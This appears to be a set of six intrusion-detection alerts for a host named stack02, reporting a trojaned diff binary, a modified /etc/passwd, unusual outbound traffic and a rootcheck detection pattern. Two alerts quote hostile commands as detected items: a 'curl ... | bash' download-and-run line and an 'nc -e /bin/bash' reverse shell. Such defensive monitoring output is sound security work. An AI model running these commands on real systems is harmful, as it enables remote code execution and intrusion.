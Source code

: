 Event #1:
Alert ID: 1720683874.36244
Alert Name: Rootcheck Anomaly Detection Event
Summary: Trojaned version of file '/usr/bin/diff' detected
Key Points: Signature used: 'bash|^/bin/sh|file\\.h|proc\\.h|/dev/[^n]|^/bin/.*sh' (Generic)
Affected User/Device: stack02
Criticality Level: MEDIUM

Event #2:
Alert ID: 1720683874.36245
Alert Name: Host-based Anomaly Detection Event (Rootcheck)
Summary: Suspicious modification of file '/etc/passwd' detected
Key Points: Signature used: 'bash|^/bin/sh|file\\.h|proc\\.h|/dev/[^n]|^/bin/.*sh' (Generic)
Affected User/Device: stack02
Criticality Level: HIGH

Event #3:
Alert ID: 1720683874.36246
Alert Name: Suspicious Execution of Binary File
Summary: Unauthorized execution of binary file detected (file: '/usr/bin/ls')
Key Points: Signature used: 'bash|^/bin/sh|file\\.h|proc\\.h|/dev/[^n]|^/bin/.*sh' (Generic)
Affected User/Device: stack02
Criticality Level: HIGH

Event #4:
Alert ID: 1720683874.36247
Alert Name: Potential Command Injection Vulnerability
Summary: Potentially malicious command injection detected (command: 'curl https://malicious-site.com | bash')
Key Points: Signature used: 'bash|^/bin/sh|file\\.h|proc\\.h|/dev/[^n]|^/bin/.*sh' (Generic)
Affected User/Device: stack02
Criticality Level: CRITICAL

Event #5:
Alert ID: 1720683874.36248
Alert Name: Unusual Network Traffic Patterns
Summary: Abnormal outbound network traffic detected from IP address '192.168.125.130'
Key Points: Destination IPs: ['103.22.217.245', '5.180.139.6']
Affected User/Device: stack02
Criticality Level: HIGH

Event #6:
Alert ID: 1720683874.36249
Alert Name: Suspicious Process Execution
Summary: Unauthorized execution of process detected (process: 'nc -e /bin/bash 10.0.0.1 5000')
Key Points: Signature used: 'bash|^/bin/sh|file\\.h|proc\\.h|/dev/[^n]|^/bin/.*sh' (Generic)
Affected User/Device: stack02
Criticality Level: CRITICAL